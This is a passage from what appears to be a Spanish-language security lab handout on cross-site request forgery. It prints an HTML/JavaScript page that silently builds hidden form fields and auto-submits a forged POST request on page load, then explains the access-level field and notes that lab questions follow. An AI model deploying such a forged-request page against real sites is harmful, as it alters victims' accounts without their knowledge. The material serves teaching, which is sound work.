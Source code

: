 \begin{lstlisting}
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers. 
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' 
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");
	 
    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";
	 
    // Append the form to the current page.
    document.body.appendChild(p);
	 
    // Submit the form
    p.submit();
}

	
// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}

En la línea  Line~, el valor \texttt{2} establece el nivel de acceso público de un campo en particular.
Esto es necesario de otra forma, el nivel de acceso será puesto por defecto como privado lo que hará que otros usuarios no puedan verlo. 
Cabe aclarar que al hacer copy and paste del código en el archivo PDF, muy a menudo, las comillas dobles y en especial las comillas simples, pueden convertirse en símbolos diferentes que parecen similares. Esta situación causará errores en el código, así que tenga en cuenta este escenario. Cuando esto suceda, elimínelos y escriba manualmente esos símbolos.

\paragraph{Preguntas.}
Además de describir su ataque de forma detallada, deberá de responder las siguientes preguntas en su informe de laboratorio:

